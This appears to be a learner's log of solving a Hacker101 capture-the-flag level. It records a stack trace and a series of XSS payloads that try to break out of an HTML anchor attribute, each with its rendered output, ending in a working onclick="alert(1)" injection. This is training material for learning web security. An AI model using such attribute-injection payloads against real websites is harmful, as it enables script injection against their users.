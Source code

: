 # Hacker101Levels

## [Breakerbank](https://www.hacker101.com/coursework/level0)  

[7/21/2018]: Stacktrace of first POST request with payload ```hola.com">```:

```python
Traceback (most recent call last):
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 1535, in __call__
    rv = self.handle_exception(request, response, e)
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 1529, in __call__
    rv = self.router.dispatch(request, response)
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 1278, in default_dispatcher
    return route.handler_adapter(request, response)
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 1102, in __call__
    return handler.dispatch()
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 572, in dispatch
    return self.handle_exception(e, self.app.debug)
  File "/base/alloc/tmpfs/dynamic_runtimes/python27/b93f87cfaa0115e5_unzipped/python27_lib/versions/third_party/webapp2-2.5.2/webapp2.py", line 570, in dispatch
    return method(*args, **kwargs)
  File "/base/data/home/apps/p~h101levels/20180202t110729.407376272389227651/level1.py", line 37, in get
    self.render_response('level1/post.html', post=Post.all().order('date')[int(id)])
ValueError: invalid literal for int() with base 10: ''
```

[7/21/2018]: Message when POSTing ```hola que tal http://hola.com">```

```So, you can't break out of the <a> tag. But what can you do inside the tag?```

[7/21/2018]:

__Payload__: ```http://.com"</a>```

_Rendered_: 
```html
<a href="http://.com" &lt;="" a&gt;"="">http://.com"&lt;/a&gt;</a>
```

__Payload__: ```http://.com"name```

_Rendered_:
```html
<a href="http://.com" name"="">http://.com"name</a>
```

__Payload__: ```http://.com"name=```

_Rendered_:
```html
<a href="http://.com" name=">http://.com"></a>
Not visible on screen for some reason
```

__Payload__: ```http://.com"name="">```

Same message.

_Rendered_:
```html
<a href="http://.com" name="" &gt;"="">http://.com"name=""&gt;</a>
```

_'>'_ character keeps getting filtered and being decoded into ```$gt;```.   
```name``` property passed through tho, with an empty value.

__Payload__: ```http://.com"href="">```

_Rendered_:
```html
<a href="http://.com" "="">http://.com"href=""</a>
```

```href``` property gets filtered too.

[7/21/2018]: We got a winner

__Payload__: ```http://google.com"onclick="alert(1)"```

Showed the alert.

